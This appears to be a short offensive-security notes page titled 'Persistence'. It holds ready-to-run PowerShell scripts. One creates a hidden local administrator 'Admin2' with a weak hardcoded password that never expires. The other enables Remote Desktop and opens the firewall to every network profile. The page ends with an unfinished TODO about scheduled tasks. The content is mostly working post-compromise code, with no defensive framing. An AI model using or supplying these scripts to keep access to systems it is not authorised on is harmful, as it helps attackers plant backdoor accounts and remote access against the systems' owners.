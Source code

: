 # Persistence

## Creating a New Admin User

This script does the following:

- Defines the username and password for the new admin user.
- Creates a new local user account with the specified username and password, and with an account that never expires and a password that never expires.
- Adds the new user to the local Administrators group.

```
# Define the new admin user's username and password
$username = "Admin2"
$password = ConvertTo-SecureString "Password1234" -AsPlainText -Force

# Create the new admin user
New-LocalUser -Name $username -Password $password -AccountNeverExpires -PasswordNeverExpires

# Add the new admin user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $username
```

## Enable RDP

This script does the following:

- Sets the "fDenyTSConnections" registry value to 0, which allows Remote Desktop connections.
- Enables the "Remote Desktop" Windows Firewall rule.
- Updates the "Remote Desktop" Windows Firewall rule to allow connections from any network profile.

```
# Enable Remote Desktop
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

# Allow Remote Desktop through Windows Firewall
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# Update the Windows Firewall rule to allow connections from any network
Set-NetFirewallRule -DisplayGroup "Remote Desktop" -Profile Any -Enabled True
```


TODO. Scheduled tasks.

